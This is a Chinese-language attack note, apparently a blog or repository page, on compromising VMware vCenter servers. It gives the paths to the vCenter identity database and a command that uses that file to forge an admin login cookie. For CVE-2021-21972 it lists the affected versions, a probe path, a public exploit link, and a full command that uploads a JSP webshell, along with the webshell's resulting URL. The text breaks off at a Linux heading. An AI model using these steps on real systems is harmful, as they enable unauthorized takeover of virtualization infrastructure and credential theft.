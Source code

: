 db数据库存放位置

    
    
    数据库存放路径  
    Windows vCenter：C:/ProgramData/VMware/vCenterServer/data/vmdird/data.mdb  
    Linux vCenter：/storage/db/vmware-vmdir/data.mdb

拖到本地利用：vcenter_saml_login  
配置cmd代理，利用netch到本地127.0.0.1:1080

![](https://gitee.com/fuli009/images/raw/master/public/20221207152847.png)

    
    
    python3vcenter_saml_login.py-pdata.mdb-t1*.***.**.***

修改cookie进行连接

![](https://gitee.com/fuli009/images/raw/master/public/20221207152848.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20221207152841.png)

CVE-2021-21972

影响范围

  * vCenter Server7.0 < 7.0.U1c  

  * vCenter Server6.7 < 6.7.U3l  

  * vCenter Server6.5 < 6.5.U3n

    
    
    /ui/vropspluginui/rest/services/uploadova

访问上面的路径，如果404，则代表不存在漏洞，如果405 则可能存在漏洞。

 **1.windows机器：**

漏洞利用：https://github.com/horizon3ai/CVE-2021-21972

    
    
    python CVE-2021-21972.py -t x.x.x.x -p c:\\ProgramData\VMware\vCenterServer\data\perfcharts\tc-instance\webapps\statsreport\gsl.jsp -o win -f gsl.jsp  
      
    -t （目标地址）  
    -f （上传的文件）  
    -p （上传后的webshell路径，默认不用改）

上传后路径

    
    
    https://x.x.x.x/statsreport/gsl.jsp  
    C:/ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport

![](https://gitee.com/fuli009/images/raw/master/public/20221207152850.png)

 **2\. linux机器**
